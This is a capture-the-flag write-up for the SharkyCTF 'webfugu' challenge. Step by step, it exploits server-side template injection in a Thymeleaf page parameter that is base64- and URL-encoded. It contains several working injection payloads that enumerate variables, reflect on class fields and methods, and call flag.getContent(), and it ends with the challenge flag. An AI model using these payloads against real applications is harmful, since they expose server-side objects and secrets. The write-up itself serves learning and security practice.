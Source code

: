# Problem Statement

A new site listing the different species of fugu fish has appeared on the net. Used by many researchers, it is nevertheless vulnerable. Find the vulnerability and exploit it to recover some of the website configuration.

Creator: MasterFox

http://webfugu.sharkyctf.xyz


# Solution

Load up the site press F12 to bring up dev tools. Hit refresh. Boom, something interesting:

![](../Images/webfugu_1.PNG)

Let's see the full content: http://webfugu.sharkyctf.xyz/process?page=PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=

So, page is

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=
    
This looks like a Base64 encoding, but with a twist (notice the %2 and probably others). So I suspect it's a url encoding of a base64 encoding, if that makes sense. Let's see (use any online or commandline tool)

After url decoding:

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI+IDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg+RGlzY292ZXJ5IHllYXI8L3RoPiA8dGg+RGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ+IDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ+IDwvdHI+IDwvdGFibGU+IDwvZGl2PiAgICAgIAo=
    
Much better, let's base64 decode:

    <div> <table border="1"> <tr> <th>Name</th> <th>Discovery year</th> <th>Discoverer name</th> </tr> <tr th:each ="fish : ${fishes}"> <td th:utext="${fish.name}">...</td> <td th:utext="${fish.discoveryYear}">...</td> <td th:utext="${fish.discovererName}">...</td> </tr> </table> </div>
    
Hard to read, let's pretty print (we'll base64+url encode either way, it's better to see the structure easier):

    <div>
       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="fish : ${fishes}">
             <td th:utext="${fish.name}">...</td>
             <td th:utext="${fish.discoveryYear}">...</td>
             <td th:utext="${fish.discovererName}">...</td>
          </tr>
      </table>
    </div>

OCD satisfied. On to WTH is this? th:each? I've never seen that. Let's Google:

![](../Images/webfugu_2.PNG)

Thymeleaf. Hmm Thymeleaf

    Thymeleaf is a modern server-side Java template engine for both web and standalone environments. Thymeleaf's main goal is to bring elegant
    
Cool, so Thymeleaf is our new friend who will do our work for us. On to StackOverflow:

![](../Images/webfugu_3.PNG)

Click first link, see a payload vaguely similar in structure to our own html:

    <table>
        <tr th:each="var : ${#vars.getVariableNames()}">
            <td th:text="${var}"></td>
            <td th:text="${#vars.getVariable(var)}"></td>
        </tr>
        ....
    </table>

Let's try to make a payload (in the actual CTF run the first tests were to put arbitrary expressions in like ${3*7} to see if they get executed.)

    <div>
       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="var : ${#vars.getVariableNames()}">
             <td th:utext="${var}"></td>
             <td th:utext="${#vars.getVariable(var)}"></td>
             <td th:utext="${3*2}"></td>
          </tr>
      </table>
    </div>

One base64 encode + url encode later (paranoia perhaps urlencode is no longer needed, since we got rid of some '...' strings in the xml), we get a payload (not pasting the string result, as that can vary because of spacing). We then apply that payload to:

    http://webfugu.sharkyctf.xyz/process?page=PGRpdj4K.....
    
![](../Images/webfugu_4.PNG)

Last thing I wanted to see:"REDACTED", the dread of any CTF-er. :). Not giving up yet, let's dig mnore
    
    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${fishes[0].class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${2*2}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>

Which got us:

![](../Images/webfugu_5.PNG)

Dig for the flag class too

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${flag.class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${field}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>
 
Which gets us: 
 
 ![](../Images/webfugu_6.PNG)
    
Aargh! A private field. I spent the next hours fixated on the fact that it's private and trying to find a way to reflect into it (perhaps setting "flag.class.getField("content").setAccessible(true)" before attempting to call flag.class.getField("content").getValue(flag)". If confused, read up on Java Reflection. And I fixated and fixated and fixated.

Luckily, at some point a friend of mine (randomly talking to on phone), who's more into Java, asks me: "what about methods?"

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${method.name}"></td>
         <td th:utext="${method}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    </div>
    
Which gets us:

 ![](../Images/webfugu_7.PNG)

Ha! there is a method called getContent() for the flag class. Overthinker that I am I tried to reflect more :) field.class.getMethod("getContent", flag.class).invoke(flag) and other crazy shenanigans all ending in 500's.

But at some point, I stopped and realized the extent of my shortsightedness (I probably could have "guessed" the answer much earlier had I had a Java background), as I began suspecting that I could do what I'm about to do with the next payload. I wanted this payload so that when it was successful, I could see the flag multiple times, so I don't miss it :)

    <div>
    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
      </tr>
    </table>
    </div>

Wooop, there it iiis!

 ![](../Images/webfugu_8.PNG)

# Flag
shkCTF{w31rd_fishes_6ee9f7aabf6689c6684ad9fd9ffbae5a}
